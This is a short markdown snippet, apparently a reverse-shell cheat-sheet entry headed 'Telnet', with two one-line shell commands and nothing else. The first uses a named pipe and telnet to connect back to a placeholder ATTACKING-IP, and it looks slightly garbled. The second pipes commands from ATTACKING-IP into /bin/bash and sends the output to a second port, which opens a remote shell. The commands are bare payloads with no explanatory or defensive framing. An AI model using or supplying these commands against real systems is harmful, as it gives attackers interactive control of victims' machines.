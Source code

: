 # Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

